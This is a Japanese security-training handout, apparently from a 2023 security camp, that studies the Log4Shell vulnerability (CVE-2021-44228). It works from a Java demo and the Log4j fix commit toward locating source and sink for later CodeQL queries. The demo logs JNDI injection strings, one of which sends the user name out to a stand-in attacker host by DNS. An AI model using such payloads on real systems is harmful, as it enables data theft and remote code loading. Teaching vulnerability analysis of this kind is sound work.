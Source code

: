 
Log4shellの脆弱性が発生する実装例
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class Test {
    
  private static final Logger logger = LogManager.getLogger(Test.class);
    
  public static void main(String[] args) {
    logger.info("${jndi:ldap://127.0.0.1/a}");
    logger.info("${jndi:dns://${env:USER}.attacker.example.com/a}"); // <JVM実行ユーザ>.attacker.example.comにDNSクエリが発生する

  }
}
```

### 課題3: CVE-2021-44228の調査
この調査でやること
* ソースとシンクについて特定する

### CVE-2021-44228
https://github.com/apache/logging-log4j2/commit/6cfd08511c822f7f28f6723042d2c697f90e0fb8


以下の修正コミットから当たりをつけてシンクを調査してみよう(10分)
※事前に静的解析環境を整えているか、動的解析しないと難しいと思うのでできなくても大丈夫
後のパートでCodeQLクエリを作成するので、そこで読んでいく予定です

https://github.com/apache/logging-log4j2/pull/608/commits
LDAPスキームや通信先のホスト検証を行う修正

Log4j 2.14.1 のソースコード 
https://github.com/apache/logging-log4j2/tree/rel/2.14.1

![](https://tyage.github.io/seccamp-2023-images/upload_d3935cc17511f9e6699ead619d23bc84.png)

`new InitialContext(data)`をnew JndiManager()の引数に渡している箇所があり、この付近が怪しそう
![](https://tyage.github.io/seccamp-2023-images/upload_2a172929f84f4d3bd8ed68a818da91cf.png)

ここからは修正前バージョン（2.14.1）のコードを追っていく

まずは修正コミットの箇所であるcreateManager()
new JndiManagerのプロパティとしてInitialContextが渡される
https://github.com/apache/logging-log4j2/blob/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java#L180
```java
        @Override
        public JndiManager createManager(final String name, final Properties data) {
            try {
                return new JndiManager(name, new InitialContext(data));
            } catch (final NamingException e) {
                LOGGER.error("Error creating JNDI InitialContext.", e);
                return null;
            }
        }
    }
```
